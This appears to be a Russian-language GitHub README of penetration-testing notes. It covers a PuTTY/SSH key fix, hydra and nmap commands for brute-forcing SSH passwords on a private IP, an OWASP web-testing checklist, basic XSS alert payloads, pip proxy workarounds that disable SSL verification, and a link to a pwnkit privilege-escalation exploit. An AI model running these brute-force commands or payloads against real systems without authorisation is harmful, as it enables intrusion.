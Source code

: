 ![image](https://github.com/MRagulin/tools/assets/26712092/9d953e60-a437-4592-870f-b46dc0ca5663)Скрипты автоматизации
====
## SSH
Проблема подключения putty к SSH через ключ

```
echo ‘PubkeyAcceptedAlgorithms +ssh-rsa’ >> /etc/ssh/sshd_config
```
Перебор паролей:

```
hydra -V -f -t 4 -l root -P pass.txt ssh://172.16.60.1
```

```
nmap -p22 --script=ssh-brute --script-args userdb=users.txt,passdb=pass.txt 172.16.60.1
```


## Веб
Методология OWASP

1. сбор информации (Краулинг) nmap, dnscan, google, whatweb, burp spider
2. тестирование конфигурации (dirbuster, http method, )
3. тестирование механизмов идентификации (burp+secList)
4. тестирование механизмов аутентификации (Recovery)
5. тестирование механизмов авторизации (DirTraversal, Id Inc, FileBrute)
6. тестирование механизмов управления сессиями (Cookie, CSRF)
7. тестирование валидации входных данных (XSS, SQLi, XML, LDAP, XPATH, HTTP-Splitting)
8. тестирование обработки ошибок (ERROR handle)
9. тестирование на предмет некриптостойкого шифрования (SSL/TLS)
10. тестирование бизнес-логики приложения (Валидация данных, бизнес-логики, загрузка данных)
11. тестирование механизмов безопасности клиентской части(XSS,JavaScript-инъекции, Clickjacking, WebSockets;)

Межсайтовый скриптинг:

```
"><img src=# onerror="alert(xss)">
"><script>alert(1)</script>
<img src=x onerror=alert(1)/>
<svg onload=alert('XSS')>
1"--><svg/onload=';alert(0);'>

```

## Python   
Проблема установки пакетов pip в корпоративной среде, варианты решения:
1. export HTTPS_PROXY=https://172.16.70.1:8888/ && export HTTP_PROXY=http://172.16.70.1:8888/ или set HTTPS_PROXY=https://172.16.70.1:8888/  && set HTTP_PROXY=http://172.16.70.1:8888/
2. pip3 install GitPython --proxy="https://172.16.70.1:8888" --global http.sslVerify false --trusted-host 172.16.70.1 --trusted-host pypi.org --trusted-host files.pythonhosted.org --trusted-host 172.16.70.1
3. pip install --index-url https://user:pass@nexus.company.local/repository/Python-group/simple GitPython


## Повышение привилегий
**Linux** pwnkit --  https://github.com/PwnFunction/CVE-2021-4034 

